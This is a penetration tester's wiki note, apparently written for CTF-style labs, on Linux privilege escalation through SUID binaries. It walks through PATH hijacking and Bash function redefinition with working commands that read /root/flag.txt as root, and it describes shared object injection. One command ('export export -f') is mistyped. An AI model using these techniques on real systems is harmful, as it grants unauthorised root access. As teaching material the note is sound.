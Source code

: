 # Privilege Escalation via SUID

---

## What is SUID?

See [[suid|here]].

---

## SUID Privilege Escalation Process

1. Attempt [[suid-for-privesc#SUID Shell Escaping|SUID Shell Escaping]]
2. Attempt [[suid-for-privesc#SUID Exploitation via PATH|SUID Exploitation via the PATH Environment Variable]]
3. Attempt [[suid-for-privesc#SUID Exploitation via Bash Function Redefinition|SUID Exploitation via Bash Function Redefinition]]
4. Attempt [[suid-for-privesc#SUID Exploitation via Shared Object Injection|SUID Exploitation via Shared Object Injection]]

---

## SUID Shell Escaping

Abuse a SUID executable to perform actions as the owning user in order to elevate privileges.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each SUID file:
	- Determine if the file can be exploited, based on:
		- Is the file a standard SUID executable?
			- Answer by comparing it to a list of SUID executables for the same operating system version and kinda by its nonexistence on [GTFOBins](https://gtfobins.github.io/)
		- Is the owning user valuable?
		- Can the SUID executable be exploited?
			- Search for a SUID entry on the executable on [GTFOBins](https://gtfobins.github.io/)
			- If it's not on GTFOBins, understand exactly what it's doing and attempt to exploit it manually
				- **Is a command in the SUID executable configured without an absolute path?**
					- Can you get your own executable ahead of that command in the `$PATH` search order?
						- Keep [[environment-variables#Inheritance|environment variable inheritance]] in mind
				- **Is a command in the SUID executable configured with an absolute path?**
					- Do you have write access to the absolute path? Can you just replace it?
				- **Does a command in the SUID executable contain a wildcard (`*`)?**
					- Attempt to abuse [[bash#Wildcard Behavior|bash's wildcard behavior]] to perform an elevated action

---
	
## SUID Exploitation via Shared Object Injection

Executables often import shared object files to use their functionality. Sometimes these shared object files don't exist and the import fails. If you replaced the nonexistent shared object file with your own, you could execute arbitrary code in the context of the owner of the SUID executable.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each SUID file:
	- Use [[strace]] to trace the SUID executable's interaction with the kernel, looking specifically for failed shared object file imports

```bash
strace $SUID_EXECUTABLE 2>&1 | grep -i -E "open|access|no such file"
```

3. For each failed shared object file import:
	- Check your permissions on the target file or its directory. If you can replace it:
		- Replace it with a [[so-source|malicious shared object file]]
		- Run the SUID executable, which should load your malicious shared object file

---

## SUID Exploitation via `$PATH`

If a target SUID executable runs a command **without an absolute path**, it will search each directory in the `$PATH` environment variable for the command.

Since [[environment-variables#Inheritance|SUID child processes inherit environment variables]], you could write your own malicious version of the command the SUID executable is attempting to run and then add its directory to the front of the `$PATH` environment variable. Then you could run the SUID executable and it would find your malicious version of the command before the legitimate one and execute it in the security context of the owner of the SUID executable.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each **non-standard** SUID file:
	- Anayze the file and determine if it executes a command without an absolute path

	```bash
	$ strings /usr/bin/suid-executable
	/lib64/ld-linux-x86-64.so.2
	5q;Xq
	__gmon_start__
	libc.so.6
	setresgid
	setresuid
	system
	__libc_start_main
	GLIBC_2.2.5
	fff.
	fffff.
	l$ L
	t$(L
	|$0H
	service apache2 start
	```

	- If the executable runs a command without an absolute path:
		- Write your own version of the command to any arbitrary directory
			- You could also write a [[elf-source|malicious ELF]]
		
		```bash
		$ echo '#!/bin/bash' > /home/tgihf/service
		$ echo 'cp /root/flag.txt /dev/shm/tgihf.txt' >> /home/tgihf/service
		$ chmod +x /home/tgihf/service
		```
		
		- Add your version of the command's directory to the front of the `$PATH` environment variable
		
		```bash
		$ export PATH=/home/tgihf:$PATH
		```
		
		- Run the SUID executable, which will run your version of the command in the security context of the SUID executable's owner
		
		```bash
		$ /usr/bin/suid-executable
		$ cat /dev/shm/tgihf.txt
		flag{it-worked!}
		```


---

## SUID Exploitation via Bash Function Redefinition

If a target SUID executable runs a command **with an absolute path**, you can define a malicious Bash function with the same name as the absolute path. Since [[environment-variables#Inheritance|SUID child processes inherit environment variables]], the SUID child process will inherit the function name. Thus, when the SUID executable runs the absolute path, it will actually execute the malicious Bash function you defined.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each **non-standard** SUID file:
	- Anayze the file and determine if it executes a command with an absolute path

	```bash
	$ strings /usr/bin/suid-executable
	/lib64/ld-linux-x86-64.so.2
	5q;Xq
	__gmon_start__
	libc.so.6
	setresgid
	setresuid
	system
	__libc_start_main
	GLIBC_2.2.5
	fff.
	fffff.
	l$ L
	t$(L
	|$0H
	/usr/sbin/service apache2 start
	```

	- If the executable runs a command with an absolute path:
		- Define a Bash function with the same name as the absolute path:
		
		```bash
		$ function /usr/sbin/service() { cp /root/flag.txt /dev/shm/tgihf.txt; }
		```
		
		- Export the function
		
		```bash
		$ export export -f /usr/sbin/service
		```
		
		- Run the SUID executable, which will run your malicious Bash function
		
		```bash
		$ /usr/bin/suid-executable
		$ cat /dev/shm/tgihf.txt
		flag{it-worked!}
		```
